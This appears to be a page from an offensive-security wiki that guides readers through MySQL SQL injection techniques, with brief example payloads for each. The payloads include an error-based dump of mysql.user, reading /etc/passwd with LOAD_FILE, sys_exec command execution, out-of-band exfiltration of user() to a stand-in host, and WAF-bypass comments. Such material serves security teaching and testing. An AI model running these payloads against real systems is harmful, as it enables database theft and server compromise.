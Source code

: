 ```yaml
---
title: MySQL SQL Injection Techniques and Exploitation
description: Comprehensive guide on exploiting MySQL SQL injection techniques to manipulate
  queries and gain control.
keywords:
- MySQL
- SQL Injection
- Union Based
- Error Based
- Blind SQL
- Time Based SQL
- MySQL Exploitation
- MySQL Keywords
---
```


# MySQL

## Context

MySQL is a popular relational database management system frequently targeted in SQL injection attacks. Offensive security practitioners leverage specific MySQL techniques to manipulate database queries, access sensitive data, and potentially gain control over the targeted systems. This document assumes knowledge of basic SQL syntax, database schema understanding, HTTP requests, and SQL Injection fundamentals.

## Theory

### MySQL SQL Injection Techniques

MySQL SQL Injection involves exploiting vulnerabilities in database queries to manipulate the intended operations and retrieve unauthorized data. Attackers typically identify injectable parameters and craft payloads to interact with the database.

### MySQL Specific Keywords and Functions

- **Versioned Comments**: `/*!...*/`, `/*!50000 SELECT 1*/`, `/*!32302 10*/`
- **Comment and Termination Characters**: `,`, `;`, `%00`, `#`, `--`
- **Variable and Character Set Manipulation**: `SET NAMES gbk`, `SET @var :=`
- **Information Functions**: `user()`, `current_user()`, `database()`
- **Null Handling Functions**: `default()`, `isnull()`, `ifnull()`, `coalesce()`
- **Type Conversion Functions**: `CAST(... AS CHAR)`, `CONVERT(... USING utf8)`

### MySQL Information Schema

- **Database Schemas**: `INFORMATION_SCHEMA.SCHEMATA`
- **Index Statistics**: `INFORMATION_SCHEMA.STATISTICS`

### MySQL System Tables

- **User and Database Information**: `mysql.user`, `mysql.db`, `mysql.proc`
- **InnoDB Table Statistics**: `mysql.innodb_table_stats`

### MySQL Administrative Commands

- **Permissions and Settings**: `SHOW GRANTS`, `SHOW VARIABLES`, `SHOW STATUS`
- **Process and Structure Information**: `SHOW PROCESSLIST`, `SHOW TABLES`, `SHOW COLUMNS`

## Practice

### MySQL Union Based SQL Injection

- Identify injectable parameter using a UNION SELECT query.
- Example:
  ```sql
  SELECT column1, column2 FROM table UNION SELECT null, null;
  ```

[Learn more about MySQL Union Based SQL Injection](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_union_based)

**Result**: Extract data from additional tables.

### MySQL Error Based SQL Injection

- Trigger an error to reveal database information.
- Example:
  ```sql
  SELECT 1 FROM table WHERE id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT (SELECT CONCAT(user,0x7e,database())) FROM mysql.user LIMIT 0,1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a);
  ```

[Explore MySQL Error Based SQL Injection Techniques](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_error_based)

**Result**: Access sensitive database information.

### MySQL Blind SQL Injection

- Infer data using conditional responses.
- Example:
  ```sql
  SELECT IF(1=1,SLEEP(5),null);
  ```

[Detail on MySQL Blind SQL Injection](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_blind)

**Result**: Extract data through timing or boolean responses.

### MySQL Time Based SQL Injection

- Use time delays to infer true/false conditions.
- Example:
  ```sql
  SELECT IF(1=1,SLEEP(5),null);
  ```

[Check MySQL Time Based SQL Injection](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_time_based)

**Result**: Extract data by observing time delays.

### MySQL DIOS - Dump in One Shot

- Dump large amounts of data in a single query.
- Example:
  ```sql
  SELECT GROUP_CONCAT(column1,0x3a,column2) FROM table;
  ```

[Learn more about MySQL DIOS](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_dios_-_dump_in_one_shot)

**Result**: Extract large datasets in one query.

### MySQL Read Content of a File

- Read server files using `LOAD_FILE()`.
- Example:
  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  ```

[Explore reading files with MySQL](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_read_content_of_a_file)

**Result**: Access and read server file contents.

### MySQL Command Execution

- Execute system commands via MySQL.
- Example:
  ```sql
  SELECT sys_exec('ls');
  ```

[Details on MySQL Command Execution](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_command_execution)

**Result**: Execute commands on the server.

### MySQL INSERT Injection

- Inject data into tables using INSERT.
- Example:
  ```sql
  INSERT INTO table (column1) VALUES ('value');
  ```

[Learn more about MySQL INSERT Injection](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_insert)

**Result**: Insert malicious data into the database.

### MySQL Truncation Attack

- Exploit field length limits to bypass constraints.
- Example:
  ```sql
  INSERT INTO users (username) VALUES ('longusername');
  ```

[Read more on MySQL Truncation](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_truncation)

**Result**: Bypass input validation through truncation.

### MySQL Out of Band Injection

- Use external channels to exfiltrate data.
- Example:
  ```sql
  SELECT LOAD_FILE(CONCAT('\\\\',user(),'.example.com\\'));
  ```

[Explore MySQL Out of Band Injection](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_out_of_band)

**Result**: Exfiltrate data using out-of-band channels.

### MySQL WAF Bypass Techniques

- Bypass Web Application Firewalls using obfuscation.
- Example:
  ```sql
  SELECT /*!50000 SELECT 1*/;
  ```

[Learn more about MySQL WAF Bypass Techniques](offensive/software/applications/server_applications/web/sql_injection/mysql/mysql_waf_bypass)

**Result**: Bypass WAF rules using obfuscation techniques.

## Tools

- **sqlmap**
- **Havij**
- **SQLNinja**
- **jSQL Injection**

This guide provides a structured approach to exploiting MySQL vulnerabilities through various SQL injection techniques, tailored for offensive security testing and research.